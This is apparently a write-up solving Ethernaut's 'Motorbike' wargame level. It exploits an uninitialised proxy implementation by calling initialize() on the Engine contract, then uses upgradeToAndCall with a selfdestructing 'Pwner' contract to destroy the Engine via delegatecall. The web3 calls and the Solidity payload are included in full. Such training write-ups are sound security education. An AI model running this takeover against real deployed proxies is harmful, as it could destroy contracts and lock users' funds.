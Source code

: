 # [25. Motorbike](https://ethernaut.openzeppelin.com/level/0x58Ab506795EC0D3bFAE4448122afa4cDE51cfdd2)

We have another proxy-based puzzle here. This time, we see that [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967) is used, which means it is safe against storage collisions. More specifically, EIP-1967 defines a standard storage slot that the proxy uses. As per this standard, the logic contract is stored at `bytes32(uint256(keccak256('eip1967.proxy.implementation')) - 1)`, which is what we see in the code too.

When we examine the Motorbike contract, we realize that it is just a proxy with its logic being the Engine contract. Engine contract is [Initializable](https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable#initializers). There is a question mark here though: the `initializer` is called from the proxy, so the affected storage is that of the Motorbike, not the Engine! Consequently, Motorbike should have the results of initialization in it's storage, while Engine should not.

The `Initializable` contract has 2 storage variables, both 1-byte booleans. The Engine contract has two variables, a 20-byte address and a 32-byte unsigned integer. As per the EVM optimization, 2 booleans and 1 address will all occupy the same slot. So we should see an address and two boolean values side by side at the 0th position.

```js
// Proxy storage
await web3.eth.getStorageAt(contract.address, 0)
// '0x0000000000000000000058ab506795ec0d3bfae4448122afa4cde51cfdd20001'

// Engine address
const _IMPLEMENTATION_SLOT = '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc'
const engineAddress = await web3.eth.getStorageAt(
  contract.address,
  web3.utils.hexToNumberString(_IMPLEMENTATION_SLOT)
)

await web3.eth.getStorageAt(engineAddress, 0)
// '0x0000000000000000000000000000000000000000000000000000000000000000'
```

Indeed, the initializer has mistakenly wrote to the proxy storage! The Engine contract has no idea that it is initialized, so we can call the initialize function there.

```js
await web3.eth.sendTransaction({
  from: player,
  to: engine,
  data: '0x8129fc1c' // initialize()
})
```

If we check the storage of Engine again, we will see that it is updated. We are now the `upgrader` and we can call the `updateToAndCall` function with a new contract of our own, and give `data` to make it `selfdestruct`.

We can write a small contract such as:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract Pwner {
  function pwn() public {
    selfdestruct(address(0));
  }
}
```

The objective is to make this the Engine of the Motorbike, so we will make the call to the proxy. Since our function signature will have no match there, it will be delegated to the Engine and there the new implementation will be our `Pwner` contract. Afterwards, `pwn()` will be called and the new implementation will `selfdestruct`.

```js
const _function = {
  "inputs": [
    { 
      "name": "newImplementation",
      "type": "address"
    },
    { 
      "name": "data",
      "type": "bytes"
    }
  ],
  "name": "upgradeToAndCall", 
  "type": "function"
};
const _parameters = [
  '0xad3359eAbEec598f7eBEDdb14BC056ca57fa32B1', // Pwner
  '0xdd365b8b', // pwn()
];
const _calldata = web3.eth.abi.encodeFunctionCall(_function, _parameters);
await web3.eth.sendTransaction({
  from: player, 
  to: engineAddress, // not Motorbike!
  data: _calldata
})
```

We are sending this transaction to Engine instead of Motorbike, because the Engine itself is like a proxy too. Notice in the `_upgradeToAndCall` internal function it makes a `delegatecall` to the `newImplementation`.

What `selfdestruct` within the `newImplementation` achieves here is that it actually destroys the calling Engine, not the Pwner contract! This is again because a `delegatecall` is used. If we check the Engine contract address with block explorer, we will see that it did indeed `selfdestruct`.


